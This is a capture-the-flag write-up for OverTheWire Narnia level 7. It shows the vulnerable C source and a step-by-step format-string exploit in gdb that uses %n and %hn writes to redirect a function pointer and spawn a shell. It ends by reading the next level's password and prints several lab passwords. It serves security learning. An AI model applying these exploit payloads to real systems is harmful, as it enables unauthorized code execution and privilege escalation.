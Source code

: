 # Level 7 → Level 8

## Solution
```
ssh narnia7@narnia.labs.overthewire.org -p 2226
```
```
YY4F9UaB60
```
```
cd /narnia ; ls -al
```
```
./narnia7
```

![](0.png)

![](1.png)


Let's look at the code:

```
cat narnia7.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof buffer, format);

        return ptrf();
}

int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}

int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);

        return 0;
}

int hackedfunction(){
        printf("Way to go!!!!");
            fflush(stdout);
        setreuid(geteuid(),geteuid());
        system("/bin/sh");

        return 0;
}
```

So, is it possible to change `ptrf` to be the address of `hackedfunction()`, instead of `goodfunction()`?

Let's look at the stack memory after printing `format` to `buffer` (after `snprintf`):

```
gdb ./narnia7
```
```
disas vuln
```

![](2.png)

```
b *0x080492b0
```
```
r $(perl -e 'print "A"x127')
```

![](3.png)

* Yellow - This is `ptrf`, the address of `goodfunction()`
* Green - This is the `buffer`, contanis the content fron the user...

We would like to do the following:
* Changing the content of the address **0xffffd3f8** (`$sp`) from **0x080492fa** (`goodfunction` address) to **0x0804931f** (`hackedfunction` address).
* Therefore the input string will be like this:<br />
      ```
      r $(perl -e 'print "\xf8\xd3\xff\xff" . "A"x(0x0804931f - 4) . "%n"')
      ```
* But since our target address is not at the top of the stack right now but a WORD away, we'll have to make `snprintf` "move" one. We will do this with "%x" like this:<br />
        ```
     r $(perl -e 'print "\xf8\xd3\xff\xff" . "A"x(0x0804931f - 4) . "%x" ."%n"')
        ```

Unfortunately, the input is too large.

![](4.png)

So what can we do? Good question.
We will have to pay attention to the following fact:
* The address of `goodfunction` is **0x080492fa**
* The address of `hackedfunction` is **0x0804931f**
* That is, the only change in the content is **the last two bytes**. Luckily, as we used `"%n"` to write a WORD-sized value into the address 0xffffd3f8 we can use `"%hn"` to write only two bytes (half a WORD)
* This way we can reduce the size of the input to **0x931f** only:

Let's try this:
```
r $(perl -e 'print "\xf8\xd3\xff\xff" . "%x" . "A"x(0x931f-4-2) . "%hn"')
```
```
x/40wx $sp
```

![](5.png)

We will notice (this also happened in previous challenges) that when the size of the input changes, so do the addresses of the stack. So now we will adjust the correct address:

```
r $(perl -e 'print "\x58\x41\xff\xff" . "%x" . "A"x(0x931f-4-2) . "%hn"')
```
```
x/40wx $sp
```

![](6.png)

Almost.<br />
We subtract a little from the input size:

```
r $(perl -e 'print "\x58\x41\xff\xff" . "%x" . "A"x(0x931f-11) . "%hn"')
```

![](7.png)

excellent! Now `ptrf` is actually the `hackedfunction`. We can verify this when we continue the program and enter the shell:
```
c
```

![](8.png)

All that remains is to do this process outside of gdb, and that's it!
```
exit
```
```
exit
```
```
./narnia7 $(perl -e 'print "\x78\x41\xff\xff" . "%x" . "A"x(0x931f-6) . "%hn"')
```
```
id
```
```
whoami
```
```
cat /etc/narnia_pass/narnia8
```

![](9.png)

## Password for the next level:
```
1aBcDgPttG
```
